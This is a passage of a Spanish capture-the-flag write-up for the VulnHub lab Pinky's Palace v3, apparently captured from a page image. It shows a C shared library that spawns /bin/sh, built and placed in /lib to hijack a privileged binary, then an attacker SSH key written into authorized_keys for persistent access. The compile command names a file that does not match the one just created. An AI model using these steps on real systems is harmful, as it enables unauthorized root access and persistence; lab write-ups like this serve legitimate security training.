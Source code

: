 ```c
#include <stdlib.h>

int psbanner() {
    return system("/bin/sh");
}
```

```bash
nano shell.c
gcc -shared -o libpinksec.so -fPIC l.cll
cp libpinksec.so /lib/libpinksec.so
```

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-26.png)

![alt text](/assets/img/writeups/vulnhub/pinkyspalacev3/image-27.png)

### Acceso por SSH

La shell que conseguimos es poco interactiva y muy limitada por lo que vamos a crear claves RSA para conectar a través de SSH.

- Creamos las claves

```bash
ssh-keygen -t rsa -b 2048 -f pinksec_key
```

- Copiamos las claves al directorio del usuario

```bash
mkdir /home/pinksecmanagement/.ssh/
echo "PEGA_TU_CLAVE_PÚBLICA_AQUÍ" >> /home/pinksecmanagement/.ssh/authorized_keys
```

Ahora podemos acceder desde a través del puerto 5555.

```bash
ssh -i pinksec_key pinksecmanagement@192.168.100.99 -p 5555
```
